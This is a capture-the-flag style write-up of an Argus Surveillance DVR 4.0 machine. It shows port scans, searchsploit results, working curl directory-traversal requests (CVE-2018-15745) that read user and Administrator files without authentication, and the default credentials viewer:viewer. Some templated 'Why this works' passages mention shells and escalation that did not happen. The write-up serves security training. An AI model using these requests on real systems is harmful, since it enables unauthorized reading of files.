

## Overview

| Field                     | Value |
|---------------------------|-------|
| OS                        | Windows 10 / Server 2019 Build 19041 x64 |
| Difficulty                | Easy |
| Attack Surface            | Web (Argus Surveillance DVR 4.0 on port 8080) |
| Primary Entry Vector      | Directory traversal via WEBACCOUNT.CGI (CVE-2018-15745 / EDB-45296) |
| Privilege Escalation Path | Same directory traversal — direct file read of Administrator desktop |

## Credentials

No credentials obtained (attack was entirely unauthenticated file read).

## Reconnaissance

---
💡 Why this works
This stage maps the reachable attack surface and identifies where exploitation is most likely to succeed. Accurate service and content discovery reduces blind testing and drives targeted follow-up actions.

```bash
rustscan -a $ip -r 1-65535 --ulimit 5000
```

```bash
Open 192.168.198.179:22
Open 192.168.198.179:135
Open 192.168.198.179:139
Open 192.168.198.179:445
Open 192.168.198.179:5040
Open 192.168.198.179:7680
Open 192.168.198.179:8080
```

```bash
PORT      STATE SERVICE       VERSION
22/tcp    open  ssh           Bitvise WinSSHD 8.48
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
8080/tcp  open  tcpwrapped
|_http-title: Argus Surveillance DVR
|_http-generator: Actual Drawing 6.0 (http://www.pysoft.com) [PYSOFTWARE]
```

Port 8080 was running Argus Surveillance DVR 4.0. A searchsploit query revealed known vulnerabilities:

```bash
searchsploit Argus Surveillance
```

```bash
Argus Surveillance DVR 4.0 - Unquoted Service Path                  | windows/local/50261.txt
Argus Surveillance DVR 4.0 - Weak Password Encryption               | windows/local/50130.py
Argus Surveillance DVR 4.0.0.0 - Directory Traversal                | windows_x86/webapps/45296.txt
Argus Surveillance DVR 4.0.0.0 - Privilege Escalation               | windows_x86/local/45312.c
```

## Initial Foothold

---
At this stage, the following command(s) are executed to progress the attack chain and validate the next hypothesis. We are specifically looking for actionable indicators such as open services, exploitability, credential exposure, or privilege boundaries. Key flags and parameters are preserved to keep the workflow reproducible for follow-along testing.

EDB-45296 describes a directory traversal in the `WEBACCOUNT.CGI` endpoint. The `RESULTPAGE` parameter accepts `..%2F` sequences to read arbitrary files without authentication:

```bash
curl "http://$ip:8080/WEBACCOUNT.CGI?OkBtn=++Ok++&RESULTPAGE=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2FUsers%2Fviewer%2Fdesktop%2Flocal.txt&USEREDIRECT=1&WEBACCOUNTID=&WEBACCOUNTPASSWORD="
```

```bash
21ddead5ecfec1f85bf0549079cc8477
```

💡 Why this works
The initial access step chains discovered weaknesses into executable control over the target. Successful foothold techniques are validated by command execution or interactive shell callbacks.

## Privilege Escalation

---
The same directory traversal vulnerability was used to read the Administrator's proof flag directly — no shell access or privilege escalation was needed:

```bash
curl "http://$ip:8080/WEBACCOUNT.CGI?OkBtn=++Ok++&RESULTPAGE=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2FUsers%2FAdministrator%2Fdesktop%2Fproof.txt&USEREDIRECT=1&WEBACCOUNTID=&WEBACCOUNTPASSWORD="
```

```bash
8f49db347a634e27b833d5d463fce4a9
```

Note: SSH login with `viewer:viewer` succeeded but the shell was unstable (terminated immediately). RDP (3389) and WinRM (5985) were not open. The machine was solvable entirely through directory traversal file reads.

💡 Why this works
Privilege escalation relies on local misconfigurations, unsafe permissions, and trusted execution paths. Enumerating and abusing these trust boundaries is the fastest route to root-level access.

## Lessons Learned / Key Takeaways

- Argus Surveillance DVR 4.0 has an unauthenticated directory traversal in `WEBACCOUNT.CGI` — keep surveillance software patched.
- Directory traversal can be enough to capture both user and root flags without needing a shell.
- When shell access is unstable (SSH shell dies immediately), pivot to file-read vulnerabilities for flag retrieval.
- Weak default credentials (`viewer:viewer`) indicate poor security posture even if the shell is non-functional.

### Attack Flow

---
At this stage, the following command(s) are executed to progress the attack chain and validate the next hypothesis. We are specifically looking for actionable indicators such as open services, exploitability, credential exposure, or privilege boundaries. Key flags and parameters are preserved to keep the workflow reproducible for follow-along testing.



## References

- EDB-45296 — Argus Surveillance DVR 4.0.0.0 Directory Traversal: https://www.exploit-db.com/exploits/45296
- CVE-2018-15745: https://nvd.nist.gov/vuln/detail/CVE-2018-15745
- RustScan: https://github.com/RustScan/RustScan
- Nmap: https://nmap.org/
